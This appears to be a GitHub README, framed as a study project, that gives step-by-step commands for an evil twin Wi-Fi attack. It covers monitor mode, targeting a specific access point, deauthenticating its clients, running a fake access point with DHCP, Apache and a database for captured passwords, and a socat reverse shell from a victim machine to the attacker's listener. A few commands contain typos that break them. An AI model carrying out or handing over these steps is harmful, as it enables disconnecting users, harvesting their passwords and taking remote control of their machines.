 # 前言  ![Awesome](https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg)

仅供参考,此project为学习之用,了解破解流程,学习无线安全

The recording file is in the link below:

https://drive.google.com/open?id=1EdF8AQh95s0FsDAZry5Uj2Y-TkjsgGOC

system : kali linux

software : aiicrack-ng dnsmasq
## Task2 

Evil Twin AP Attack: Set up a fake AP impersonating the target AP, and force target AP users to connect to it.

### 1. start wireless card monitor mode 

```
airmon-ng start wlan0
```

(wlan0 is the port of the wireless network card,it can be check by inputing `ifconfig` or `iwconfig`)

### 2. checking wireless AP(access point)

```
airodump-ng wlan0mon
```
(the prot been changed to wlan0mon after starting monitor mode)

this command can list all the information about AP ,Station and the traffic between them

you can see the name in the table 

BSSID : the MAC address of the AP

PWR : Signal strength

Beacons : one of the management frames, theo purpose of it is to transmit periodically, they serve to announce the presence of a wireless LAN and to synchronise the members of the service set.

Data : the throughput of the AP 

CH : channel

ENC : Encrept protocol 

ESSID : the name of AP

#### in case the channel will change over time,set the stable channel 
```
airodump-ng -c 11 -i wlan0 --bssid C4:71:54:23:2A:AE 
```

-c : channel number ,in this case , i choose 11

-i : choose the card to monitor 

--bssid : the MAC address of target AP

this command only show the traffic between client and target AP

## 3. attack target by using aireplay-ng
```
aireplay-ng -0 0 -a C4:71:54:23:2A:AE -c EC:D0:9F:87:DD:6F  wlan0mon
```

-0 : Conflict attack mode , follow by the attack times , 0 represent all the times

-a : the MAC of AP  , this can be captured from the `airodump-ng wlan0mon`

-c : the client that connect to AP legally. if not spcecif which client , it will disconnect all the clients which connect to this WI-FI

## 4. Set up a fake AP impersonating the target AP

the client will be disconnected from the AP we input above 

```
airbase-ng -a AA:AA:AA:AA:AA:AA --essid 'BeautifulSoup' -c 11 wlan0mon
```

-a :set up MAC address 

-essid : the name of AP ,this should be same as the target WI-FI

-c : channel 11

###  DHCP server 

1. install DHCP server

```
sudo apt install -y isc-dhcp-server
```
2.modify DHCP conf file

type the command below in your terminal

```
vi /etc/dhcp/dhcpd.conf
```
change the content or uncomment the content as follow

```
authoritative;
default-lease-wime 600;
max-lease-time 7200;
subnet 192.168.1.128 netmask 255.255.255.128 {
option subnet-mask 255.255.255.128;
option broadcast 192.168.1.255;
option routers 192.168.1.129;
option domain-name-servers 8.8.8.8;
range 192.168.1.130 192.168.1.140;
}
```
launch the DHCP server ,

in kali , use command,

```
 dhcpd -cf /etc/dhcp/dhcpd.conf
```

after that ,type command below

start web server Apache

```
/etc/init.d/apache2.start
``` 
 
4.install mysql-server for storing captured password
 
```
apt-get install mariadb-server
```
Actually, for Kali Linux the apt-get install mysql-server command will not work, but try with apt-get install mariadb-server.
 
This will install MySQL
 
after installation ,type
 
```
/etc/init.d/mysql start
```

###  Reverse shell

1. install socat 

Type the command in your terminal

```
apt-get install socat
```
2. in victim machine
in this case 

VICTIM IP：192.168.1.107

KALI IP：192.168.1.102

Type command

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.1.102:4444
```
Just change the victimIP with your target IP

and in the attcker machine which is kali

Type command

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

